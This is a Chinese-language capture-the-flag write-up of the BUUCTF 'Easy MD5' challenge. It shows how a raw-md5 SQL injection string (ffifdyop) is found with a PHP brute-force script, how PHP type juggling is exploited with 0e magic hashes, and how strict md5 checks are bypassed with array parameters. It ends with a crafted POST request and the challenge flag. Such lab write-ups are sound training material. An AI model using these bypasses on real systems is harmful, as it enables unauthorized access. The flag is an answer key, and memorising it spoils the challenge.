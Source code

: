 # Easy MD5

[题目地址](https://buuoj.cn/challenges#[BJDCTF2020]Easy%20MD5)

网站就一个框给你填，翻了源代码也没东西。我找提示的水平就这样了，看[wp](https://blog.csdn.net/xhy18634297976/article/details/122747034)才知道服务器发给我们的包里有提示，chrome可以直接在network看到。

```
HTTP/1.1 200 OK
Server: openresty
Date: Thu, 27 Oct 2022 04:11:30 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive
Hint: select * from 'admin' where password=md5($pass,true)
X-Powered-By: PHP/7.3.13
```

下次连这里也要留心眼了。hint指示的应该是提交的内容被放入sql语句中的方式，$pass是提交的内容，[md5](https://www.php.net/manual/zh/function.md5.php)的第二个参数指示md5 摘要将以 16 字符长度的原始二进制格式返回。原始二进制代表返回值不再是我们熟悉的16进制形式，什么稀奇古怪的玩意都会出现，包括引号。等一下，引号？这不就可以闭合了吗？好家伙我们要用md5值来sql注入。要找一个md5值是' or 'xxxx的字符串，sql注入基操。

```php
<?php 
for ($i = 0;;) { 
 for ($c = 0; $c < 1000000; $c++, $i++)
  if (stripos(md5($i, true), '\'or\'') !== false)
   echo "\nmd5($i) = " . md5($i, true) . "\n";
 echo ".";
}
?>
```

这是大佬的脚本，得到ffifdyop，md5加密后会返回'or'6XXXXXXXXX(这里的XXXXX是一些乱码和不可见字符)。因为sql和php的特性很像，做布尔判断时，以数字开头的字符串会被当做整型数，所以6XXXXXXXXX会被看成6，6也能表示true，成功绕过。

进入下一关。这回源代码有提示了。

```php
$a = $GET['a'];
$b = $_GET['b'];

if($a != $b && md5($a) == md5($b)){
    // wow, glzjin wants a girl friend.
```

要求a不等于b但是a的md5值弱等于b的md5值。弱等于就很灵魂，php智能这点人尽皆知了，== 在进行比较的时候，会先将两边的变量类型转化成相同的，再进行比较。如果两边的md5值都是0e，php就会把它视为科学计数法，而0e后面是什么不重要，0的多少次方还是0，无论如何都会相等。上面的md5官方文档评论区中就给了这样两个字符串：240610708和QNKCDZO。get传参后来到最后一关。

```php
<?php
error_reporting(0);
include "flag.php";

highlight_file(__FILE__);

if($_POST['param1']!==$_POST['param2']&&md5($_POST['param1'])===md5($_POST['param2'])){
    echo $flag;
}
```

一样的套路，但是这回是强等于了，怎么办？这就不得不提到md5的特性了：如果传入的两个参数不是字符串，而是数组，md5()函数无法解出其数值时，会报警告，但是还能得到===强比较的值相等。可以做个实验。

```php
<?php
$a[]=1;
$b[]=2;
if(md5($a)===md5($b)){
	echo "yes";
}
?>
```

输出yes。post得到flag。

```
POST /levell14.php HTTP/1.1
Host: 154fe26d-aae4-4ce3-8884-43ba62b3fb83.node4.buuoj.cn:81
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 21

param1[]=1&param2[]=2
```

为什么$_POST['param1']能取到param1[\]的值？因为param1[\]代表数组，param1\[\]的名字还是param1，[]仅仅指示这是个数组，跟名字没关系。

### Flag
- flag{5c74f362-c738-480d-b614-b5bd5c15b83b}